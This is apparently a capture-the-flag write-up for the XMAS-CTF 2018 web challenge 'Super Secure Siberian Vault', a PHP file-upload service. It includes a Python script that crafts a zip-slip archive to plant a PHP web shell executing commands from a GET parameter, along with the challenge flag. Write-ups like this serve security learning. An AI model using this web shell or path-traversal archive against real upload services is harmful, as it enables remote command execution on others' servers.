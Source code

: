 # __XMAS-CTF 2018__ 
## _Super Secure Siberian Vault_

## Information
**Category:** | **Writeup Author**
--- | ---
Web | Huascar Tejeda <<htejeda@f2tc.com>>

**Description:** 

> Ever wondered where Santa might keep his most personal secrets? In the most securized Siberian vault of course! Today, the concrete and steel facility has opened to the public, and you can now use it to safeguard your very own personal secrets too, just like Santa!
>
> **Pro Tip: You can upload archives to store multiple secrets at the same time.**
>
>Server: 199.247.6.180:12007
> [chall](chall)
>
> Author: Milkdrop

**Flag:**

> X-MAS{Z1pp3r_D0wn_S4nt4!_Y0ur_Secr3t5_4r3_n0w_0ur5}

## Solution

![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/01.png)

```
SuperSecureSiberianVault ❯❯❯ curl -I http://199.247.6.180:12007/
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 24 Dec 2018 14:38:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.2.10
Set-Cookie: PHPSESSID=25d1759f5000fb2ff54f55d3b5a2d428; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-XSS-Protection: 1; mode=block
```

This website allows you to upload files to /uploads/**PHPSESSID**/:
![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/02.png)

I started playing with the PHPSESSID cookie to see how far I could go.
 - I could manipulate the destination folder
 
 ![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/03.png)
 ![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/04.png)

 - Path traversal attack by manipulating the PHPSESSID cookie didn't work as I expected.
 - I started uploading different file types but when accessed inside the /uploads/* folder, the response Content-Type is always application/octet-stream.

   Now... remember the **"Pro Tip: You can upload archives to store multiple secrets at the same time."**? - The only way the webapp allows us to upload multiple files is by creating a zip file. But we need to find another destination folder where we can execute our script.

## Exploit

![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/06.png)

#### What if we create a zip file that extracts our script to '../../img/'?
```python
import zipfile

z_info = zipfile.ZipInfo(r"../../img/f2tc.php")
z_file = zipfile.ZipFile("f2tc.zip", mode="w")
z_file.writestr(z_info, "<?php if (!empty($_GET['hucmd'])) { echo '<pre>'. shell_exec($_GET['hucmd']) .'</pre>'; } ?>");
z_file.close()
```

![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/05.png)

![](/images/XMAS-CTF-2018/Web/SuperSecureSiberianVault/07.png)
